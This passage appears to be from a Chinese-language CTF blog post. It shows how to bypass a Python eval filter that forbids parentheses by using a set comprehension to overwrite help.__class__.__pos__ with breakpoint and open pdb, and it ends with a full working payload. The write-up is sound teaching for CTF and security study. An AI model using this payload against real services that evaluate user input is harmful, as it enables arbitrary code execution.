 另外一個問題是 Python expression 內不支援直接賦值，像是 `a = 123` 這種是不能在 eval 內成功運作的，那這樣要如何賦值呢？

在 Python 3.8 新增了一個語法叫 海象表達式（Walrus Operator），他允許你直接在表達式裡面進行同時進行變數賦值和回傳該值，大概像這樣：

```python
payload = "{a:=1234, print(a)}"
eval(payload)

"""
1234
"""
```



不過可惜的是，我們要做到的是像 `help.__class__.__pos__ = breakpoint` 這種 Left hand side 複雜的賦值，這樣海象表達式不支援，會報錯給你看。

我們現在的問題是：如何在 expression 中蓋掉一層以上的成員

接下來這招大家寫 Python 一定用過，那就是： list comprehension，不過我們這邊不能用括號，所以改成大括號，差別只在最後會裝成 set，這邊稱作 set comprehension。

```python
a = {x for x in range(5)}
print(a)
"""
{0, 1, 2, 3, 4}
"""
```



你可能會想 set comprehension 跟這裡要做的複雜賦值有什麼關係，但仔細想想 for loop 本來就是將 `in` 右邊的東西丟給左邊的操作，並且 for loop 是支援複雜成員指定的，所以可以：

```python
{+help for help.__class__.__pos__ in {breakpoint}}
```

這樣就把 help class 的 `__pos__` 蓋成 breakpoint 了，最後 `+help` 就可以成功執行叫出 pdb。



所以最終 Payload：

```python
def safe_eval(expr):
  if '(' in expr or ')' in expr:
    raise TypeError("safe_eval does not allow ().")
  return eval(expr)

payload = "{{+help for help.__class__.__pos__ in {breakpoint}}}"

print(safe_eval(payload))
```



## 結尾

這種不用括號就能呼叫 Python callable 的技巧在 CTF 其實已經行之有年了，我也是在 CTF Discord 中看到 [maple3142](https://blog.maple3142.net/) 大大的對話學到上面提到的技巧。

今年也有用這個技巧在 AIS3 pre-exam 2025 出了兩題 <https://github.com/Vincent550102/My-CTF-Challenge/tree/main/AIS3-preexam/2025>

最後來想想這種情境會出現在哪，例如有個服務，開發者想讓使用者乖乖地用基礎功能、加減乘除等等，認為沒有括號就不會出事（？
